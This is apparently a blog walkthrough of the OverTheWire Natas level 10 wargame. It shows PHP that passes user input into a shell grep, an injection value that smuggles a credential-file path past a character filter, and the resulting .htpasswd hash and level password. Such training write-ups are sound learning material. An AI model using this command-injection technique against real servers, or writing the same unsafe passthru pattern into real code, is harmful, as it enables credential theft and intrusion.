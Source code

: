 ```yaml
---
layout: post
title:  "Natas Level 10"
date:   2015-09-28 19:45
categories: natas wargame web overthewire
author: Leander
---
```

This is a solution guide to the Natas10 Level at [overthewire](http://natas10.natas.labs.overthewire.org). This write-up was created on 28 September 2015.

First connect to the website
<ul><li>http://natas10.natas.labs.overthewire.org</li>
<li>Enter the following as the username natas9 and password nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu</li></ul>

Let's begin first by clicking on view source and examining the code for this level.
{% highlight php linenos %}
<?php
$key = "";
 
if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }}?>
{% endhighlight %}

This challenge is very similar to the last challenge except that it filters and checks for the following characters <code>[;|&]</code>. After the check it still uses the same php function called *passthru()*. If you want to learn more about *passthru()* check out this [link](http://php.net/manual/en/function.passthru.php). So now we have to find a way to send *passthru()* a command which will show us the flag inside /etc/natas_webpass/natas11.

This time we are going to send grep an actual valid command to search for our key. You can find more about grep [here](http://www.tutorialspoint.com/unix_commands/grep.htm). Of note we know that we don't have to worry about case due to the *-i* switch, and we also know that grep expects to have a pattern to search for followed by a named input file. So let's try searching for all text with .* in the /etc/natas_webpass/natas11 directory.
<code> .* /etc/natas_webpass/natas11 #</code>

Which returns our password on the last line:
<figure class="highlight"><pre><code class="language-text" data-lang="text">.htaccess:AuthType Basic
.htaccess: AuthName "Authentication required"
.htaccess: AuthUserFile /var/www/natas/natas10//.htpasswd
.htaccess: require valid-user
.htpasswd:natas10:$1$sDWfJg4Y$ewf9jvw0ChWUA3KARHisg.
/etc/natas_webpass/natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK</code></pre></figure>

The password is natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
